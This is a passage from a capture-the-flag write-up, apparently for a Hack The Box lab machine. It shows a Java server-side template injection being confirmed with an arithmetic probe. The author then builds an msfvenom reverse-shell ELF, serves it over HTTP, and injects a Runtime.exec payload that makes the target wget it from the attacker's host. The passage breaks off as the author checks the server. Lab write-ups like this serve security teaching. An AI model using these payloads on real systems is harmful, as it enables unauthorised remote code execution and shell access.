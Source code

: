 



# Exploitation

We'll use a simple mathematical operation ```*{7*7}```

Lets see what happens when we use this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c26753af-227b-4990-9cf9-d0ac82c1fb79)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d2f7e083-f5ef-40af-acd2-e76058b44dd9)

cool cool, our arithmetic got executed actually.

Now, lets look for a payload that can help us spawn a reverse shell

We'll start out by generating a malicious ```.elf``` file

command:```msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.61 LPORT=1234 -f elf > bankai.elf```

Ensure your provide your ```LHOST``` and ```LPORT```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/redpanda]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.61 LPORT=1234 -f elf > bankai.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/redpanda]
└─$ ls -la
total 20
drwxr-xr-x  2 bl4ck4non bl4ck4non 4096 Oct 23 23:00 .
drwxr-xr-x 21 bl4ck4non bl4ck4non 4096 Oct 23 22:02 ..
-rw-r--r--  1 bl4ck4non bl4ck4non  194 Oct 23 23:01 bankai.elf
```
smooth, what we'll do next is start a simple Http server in this directory

command:```python3 -m http.server 80```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f6a6c21c-e274-44c0-b6ac-0af6175b78ea)

On the target's website, we'll try to get the ```bankai.elf``` file using the ssti payload below

```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://LHOST/bankai.elf")}
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef708a36-ffdb-46fb-8d6b-53c74cd4768c)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/81819ef8-7598-4ae8-a529-7fe1748e1b2b)

Checking the python3 server we set up
